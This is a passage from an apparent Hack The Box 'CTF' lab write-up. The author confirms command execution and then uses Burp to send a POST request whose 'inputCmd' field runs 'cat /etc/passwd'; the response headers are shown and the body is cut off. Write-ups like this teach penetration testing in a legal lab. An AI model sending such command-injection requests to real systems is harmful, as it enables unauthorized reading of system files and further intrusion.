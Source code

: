 ![](/images/hackthebox/ctf/14.png)
#### I tried `whoami` and it worked fine:
![](/images/hackthebox/ctf/15.png)
#### I switched to burp to make things easier, I wanted to read `/etc/passwd` to know the users :
#### Request :
```
POST /page.php HTTP/1.1
Host: ctf.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.htb/page.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Cookie: PHPSESSID=jj0dlekfhl2pggbo50bg4dkeu0
Connection: close
Upgrade-Insecure-Requests: 1

inputCmd=cat /etc/passwd&inputOTP=52447058

```
#### Response :
```
HTTP/1.1 200 OK
Date: Fri, 19 Jul 2019 21:58:13 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 4005
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
  <head>
        ----------------
         Removed Output
```